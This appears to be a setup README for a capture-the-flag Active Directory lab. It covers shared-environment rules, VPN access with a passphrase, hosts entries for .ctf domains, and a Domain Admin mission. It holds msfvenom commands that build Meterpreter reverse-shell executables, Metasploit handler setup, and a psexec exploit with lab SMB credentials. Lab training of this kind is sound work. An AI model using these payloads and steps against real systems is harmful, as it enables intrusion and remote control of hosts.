 # Rules

Because we will be sharing the same environment, please consider the following rules:

- Avoid Migrate
  - Steal Tokens instead
- Avoid Spawning unnecessary processes
- Do not change passwords
- Do not delete files


# VPN

1. Download the file `openvpn-montrehack.ovpn` below
2. Run: `openvpn --config openvpn-montrehack.ovpn`
3. The passphrase is: 9Fi?U8(p3iZ*WkBy{b4w'<YFMXa@r6KT


# Add this to your `/etc/hosts`

```
9000:470:beef::10	           dc.neurosoft.ctf
9000:470:beef::11	           svc.neurosoft.ctf
9000:470:beef::12	           dev.neurosoft.ctf
9000:470:beef:cafe:cafe::20  dc01.nsresearch.ctf
9000:470:beef:cafe:cafe::21  vault.nsresearch.ctf
9000:470:beef:dead::48       mail.neurosoft.ctf
```


# Generate payloads

Might be useful but not necessary depending on your style.

```
msfvenom -p windows/meterpreter/reverse_ipv6_tcp LHOST=”$my_ipv6" LPORT=8080 -f exe -o “payload_msf_x86.exe” -a x86
msfvenom -p windows/x64/meterpreter_reverse_ipv6_tcp LHOST=”$my_ipv6" LPORT=8081 -f exe -o “payload_msf_x64.exe” -a x64
```


# Setup Handlers

```
setg ExitOnSession false
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_ipv6_tcp
set LHOST ::
set LPORT 8080
run -j
set PAYLOAD windows/x64/meterpreter_reverse_ipv6_tcp
set LPORT 8081
run -j
```

# Pop your first shell

```
use windows/smb/psexec
set PAYLOAD windows/meterpreter/reverse_ipv6_tcp
set RHOST 9000:470:beef::12
set LHOST <YOUR IPv6 IN SUBNET FC00:1337:2:0::/64>
set LPORT 8080
set SMBUser nsec
set SMBPass MontrehackRocks!
set DisablePayloadHandler true
run
```

# Your mission

Get Domain Admin of neurosoft.ctf
